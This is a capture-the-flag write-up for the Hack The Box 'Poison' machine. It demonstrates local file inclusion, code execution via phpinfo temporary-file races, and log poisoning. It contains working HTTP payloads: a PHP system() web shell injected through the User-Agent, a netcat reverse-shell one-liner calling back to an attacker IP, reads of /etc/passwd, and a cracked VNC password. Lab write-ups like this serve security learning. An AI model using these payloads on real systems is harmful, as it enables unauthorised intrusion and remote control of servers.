

# Alternative way to exploit Poison

## Local File Inclusion (LFI)

Instead of finding the Base64-encoded file, there are other ways to get a shell on the box.

When looking at the _phpinfo.php_ there is a line that shows that the `file_uploads` function is active.
This means that by uploading a temporary file, _phpinfo.php_ will show where it is located and use a **Local File Inclusion** to execute it.

### Testing the LFI

Lets submit any filename to the application and send it through a proxy like **Burpsuite**:
```markdown
GET /browse.php?file=testing HTTP/1.1
Host: 10.10.10.84
(...)
```

When submitting a valid page like _index.php_, it gets executed and the output is shown.
Using PHP commands to display the source code of _index.php_:
```markdown
GET /browse.php?file=php://filter/convert.base64-encode/resource=index.php
```

After sending this request, it displays the source code of _index.php_ but Base64-encoded:
```markdown
PGh0bWw+Cjxib2R5Pgo8aDE+VGVtcG9yYXJ5IHdlYnNpdGUgdG8gdGVzdCBsb2NhbCAucGhwIHNjcmlwdHMuPC9oMT4KU2l0ZXMgdG8gYmUgdGVzdGVkOiBpbmkucGhwLCBpbmZvLnBocCwgbGlzdGZpbGVzLnBocCwgcGhwaW5mby5waHAKCjwvYm9keT4KPC9odG1sPgoKPGZvcm0gYWN0aW9uPSIvYnJvd3NlLnBocCIgbWV0aG9kPSJHRVQiPgoJU2NyaXB0bmFtZTogPGlucHV0IHR5cGU9InRleHQiIG5hbWU9ImZpbGUiPjxicj4KCTxpbnB1dCB0eXBlPSJzdWJtaXQiIHZhbHVlPSJTdWJtaXQiPgo8L2Zvcm0+Cg==
```

The string can be decoded to show the source code:
```markdown
cat index.b64 | base64 -d
```

This also allows to get other files on the server like _/etc/passwd_ for example:
```markdown
GET /browse.php?file=/etc/passwd
```

This proofs that **LFI** is working.

### Code Execution with phpinfo

With `file_upload` enabled, it is possible to upload files that PHP accepts and those will be stored in a cached directory. When executing them with the LFI vulnerability, we get potential code execution.

This is explained in [this paper from InsomniaSec](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf).

The request method has to be _POST_ and the _Content-Type_ is also changed and the whole request looks like this:
```markdown
POST /phpinfo.php HTTP/1.1
Host: 10.10.10.84
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.84/
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=--Test
Content-Length: 0

----Test
Content-Disposition: form-data; name="anything"; filename="testfile"
Content-Type: text/plain

This is a test string
----Test
```

After sending the request and looking at the PHP variables, we see that the data is included in there:



The cached file has the name _/tmp/phpNdOnxX_ and will be there for a short time.
To access the cached file, we will use the script from the paper that will try to win a Race Condition. It can also be found in the [PayloadAllTheThings GitHub repository](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/phpinfolfi.py).

The Python script has to be modified accordingly.
I used the _php-reverse-shell_ from **Laudanum** as the payload and my IP and port 9001 as the listener.
```markdown
python poison_phpinfolfi.py 10.10.10.84 100
```

After a while the listener on my IP and port 9001 spawns a reverse shell on the box!

### Code Execution with Log Poisoning

The LFI can also be used for **Log Poisoning**.
When looking at the log file _/var/log/httpd-access.log_ it also shows the User-Agent:
```markdown
10.10.14.39 - - [02/May/2020:10:59:24 +0200] "GET / HTTP/1.1" 200 289 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```

It is possible to modify this with **Burpsuite**:
```markdown
GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log HTTP/1.1
Host: 10.10.10.84
User-Agent: Test'
```
```markdown
10.10.14.39 - - [02/May/2020:11:07:22 +0200] "GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log HTTP/1.1" 200 1657 "http://10.10.10.84/" "Test'"
```

When using PHP code in the User-Agent, it gets executed:
```markdown
GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log HTTP/1.1
Host: 10.10.10.84
User-Agent: <?php echo('Test'); ?>
```

There are no PHP tags but instead just the _"Test"_ string.
```markdown
10.10.14.39 - - [02/May/2020:11:09:42 +0200] "GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log HTTP/1.1" 200 1953 "http://10.10.10.84/" "Test"
```

This means PHP Code Execution works and it is possible to run system commands:
```markdown
GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log HTTP/1.1
Host: 10.10.10.84
User-Agent: <?php system($\_REQUEST['cmd']); ?>
```

Executing any system command:
```markdown
http://10.10.10.84/browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log&cmd=uname+-a
```
```markdown
10.10.14.39 - - [02/May/2020:11:16:11 +0200] "GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log&cmd=uname+-a HTTP/1.1" 200 3172 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```

Lets execute a PHP reverse shell:
```markdown
GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log&cmd=mkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+|nc+10.10.14.39+9002+>/tmp/f HTTP/1.1
```

The listener on my IP and port 9002 starts a reverse shell as the user _www_.

## Cracking the VNC password

The _secret_ file is an encrypted password but there are [tools on GitHub](https://github.com/jeroennijhof/vncpwd) to decrypt it:
```markdown
./vncpwd secret
```

The password is:
> VNCP@$$!
